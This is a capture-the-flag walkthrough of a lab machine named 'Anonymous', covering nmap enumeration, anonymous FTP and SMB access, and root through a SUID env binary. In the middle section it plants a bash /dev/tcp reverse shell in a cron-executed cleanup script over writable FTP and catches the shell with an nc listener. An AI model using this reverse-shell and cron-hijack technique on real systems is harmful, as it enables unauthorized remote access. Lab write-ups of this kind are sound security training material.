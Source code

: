 +++
title = 'Anonumous'
date = 2024-09-12T23:14:19-04:00
+++

Anonumous
===

###  PWN

- [x] Enumerate the machine.  How many ports are open?
As always, we can use namp to enumerate open ports.  
`nmap -sV -sC 10.10.11.170`  
```
Starting Nmap 7.60 ( https://nmap.org ) at 2022-11-04 06:15 GMT
Nmap scan report for ip-10-10-11-170.eu-west-1.compute.internal (10.10.11.170)
Host is up (0.0010s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)   <---can use anonymous login!!
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeabl                                                                  e]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.27.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protoco                                                                  l 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (EdDSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 02:88:90:5A:E3:A3 (Unknown)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknow                                                                  n> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-11-04T06:15:52+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-11-04 06:15:52
|_  start_date: 1600-12-31 23:58:45

Service detection performed. Please report any incorrect results at https://nmap                                                                  .org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```
- [x] What service is running on port 21?  
21 port is ftp
- [x] What service is running on ports 139 and 445?  
139 and 445 are smb
- [x] There's a share on the user's computer.  What's it called?  
use smbclient to confirm share disk 
`smbclient -N -L 10.10.11.170`
![image](https://user-images.githubusercontent.com/67756786/199912107-a01e29dd-40db-4bb9-95f6-c5db6aabf0f2.png)

- [x] user.txt  
we use anonymous login ftp server.
`ftp -4 10.10.11.170`  
![image](https://user-images.githubusercontent.com/67756786/199905611-889abdec-ff61-474f-96f7-1cd73446c6fe.png)
use `ls` to check what file are there, and we found scripts directory.
![image](https://user-images.githubusercontent.com/67756786/199905651-9f7f2938-7811-4de5-a393-8914fe795f08.png)
Into the scripts, and we got three file.
![image](https://user-images.githubusercontent.com/67756786/199906253-23f369f4-fe45-4c8d-97aa-1bbecd0090b7.png)
download all file .
`mget *`
clean.sh
```
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
removed_files.log
```
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```
to_do.txt
```
I really need to disable the anonymous login...it's really not safe
```
We know clean.sh is delete file's shell script,and removed_files.log is log of clean.sh.to_do.txt is user's note.  
removed_files will be bigger over time,and i guess that crontab should be work for clean.sh.we can add bash reverse shell into
clean.sh,and upload to ftp server.  
Bash TCP  
`/bin/bash -l > /dev/tcp/10.10.27.128/9000 0<&1 2>&1`
listen to 9000 port and upload clean.sh  
`nc -lvnp 9000`  
into ftp server , put new clean.sh  
`put clean.sh`  
![image](https://user-images.githubusercontent.com/67756786/199908391-66377823-80e3-465d-a355-7f7482401cc5.png)
![image](https://user-images.githubusercontent.com/67756786/199908457-dcca7c04-60d7-4051-8131-6e496e50100e.png)

- [x] root.txt  
First, I use python pty to get better shell  
![image](https://user-images.githubusercontent.com/67756786/199910410-fff469dd-66dc-4b38-bb39-31e8c41b38ce.png)

we can confirm privilege now.  
But we don't have namelessone password  
`sudo -l`
![image](https://user-images.githubusercontent.com/67756786/199910678-b7b867d3-0e51-4bd9-8ed3-0059a4594b13.png)  

So we found SUID to privilege escalation.
`find / -perm -u=s -type f 2>/dev/null`  
![image](https://user-images.githubusercontent.com/67756786/199911319-67f783e4-b5de-4782-ac83-836995edcc3e.png)

I confirm all applicatoin to GTFOBins. If applicatoin use sudo to privilege escalation, we can't exploit, because we don't have
password.

I found env can use SUID to privilege escalation.  
![image](https://user-images.githubusercontent.com/67756786/199911445-dca2041f-f582-4448-b32f-ef466a98b2cb.png)
got root.txt
![image](https://user-images.githubusercontent.com/67756786/199911573-d639b774-e745-43ec-a5a5-3e93d7b8d0ea.png)

